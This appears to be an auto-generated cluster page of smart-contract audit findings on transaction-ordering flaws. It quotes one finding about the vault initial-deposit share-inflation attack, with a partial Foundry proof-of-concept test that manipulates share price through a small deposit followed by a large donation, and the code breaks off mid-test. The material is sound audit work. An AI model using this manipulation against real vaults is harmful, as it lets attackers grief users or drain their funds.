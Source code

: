 # Cluster -1004

**Rank:** #169  
**Count:** 74  

## Label
Failure to enforce transaction ordering, timing, and state consistency leads to unauthorized recovery, duplicate claims, and invalid parameter consumption, enabling front-running, delayed execution, and compromised account integrity.

## Cluster Information
- **Total Findings:** 74

## Examples

### Example 1

**Auto Label:** **Insufficient input validation and improper execution ordering lead to balance manipulation, pricing distortions, and economic exploitation of transaction sequences.**  

**Original Text Preview:**

## Severity

**Impact:** High, as the victim loses their funds

**Likelihood:** Low, as it comes at a cost for the attacker

## Description

The famous initial deposit attack is largely mitigated by the `+1` done in the asset/shares conversion. However, doing this attack can cause some strange behavior that could grief users (at high cost of the attacker) and leave the vault in a weird state:

Here's a PoC showing the impacts, can be added to `Deposit.t.sol`:

```solidity
    Vault vault;
    MockERC20 asset;

    address bob = makeAddr('bob');

    function setUp() public {
        asset = new MockERC20();
        vault = new Vault(100e18,100e18,asset);

        asset.mint(address(this), 10e18 + 9);
        asset.mint(bob,1e18);
    }

    function test_initialSupplyManipulation() public {
        // mint a small number of shares
        // (9 + 1 = 10) makes math simpler
        asset.approve(address(vault),9);
        vault.deposit(9, address(this));

        // do a large donation
        asset.transfer(address(vault), 10e18);

        // shares per assets is now manipulated
        assertEq(1e18+1,vault.convertToAssets(1));

```